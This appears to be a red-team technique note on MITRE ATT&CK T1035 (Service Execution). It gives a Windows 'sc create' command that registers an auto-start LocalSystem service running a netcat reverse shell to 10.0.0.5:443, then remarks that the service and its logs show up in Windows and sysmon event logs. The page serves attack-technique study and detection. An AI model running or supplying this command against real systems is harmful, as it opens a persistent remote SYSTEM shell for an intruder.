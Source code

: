 ```yaml
---
description: 'Code Execution, Privilege Escalation'
---
```


# T1035: Service Execution

## Execution

Creating an evil service with an nc reverse shell:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```bash
C:\> sc create evilsvc binpath= "c:\tools\nc 10.0.0.5 443 -e cmd.exe" start= "auto" obj= "LocalSystem" password= ""
[SC] CreateService SUCCESS
C:\> sc start evilsvc
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Observations

The reverse shell lives under services.exe:

![](../.gitbook/assets/services-nc.png)

Windows security, application, Service Control Manager and sysmon logs provide some juicy details:

![](../.gitbook/assets/services-logs.png)

![](../.gitbook/assets/services-shell.png)

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1035\",\"type\":\"link\",\"title\":\"Service Execution - ATT&CK for Enterprise\"}" %}

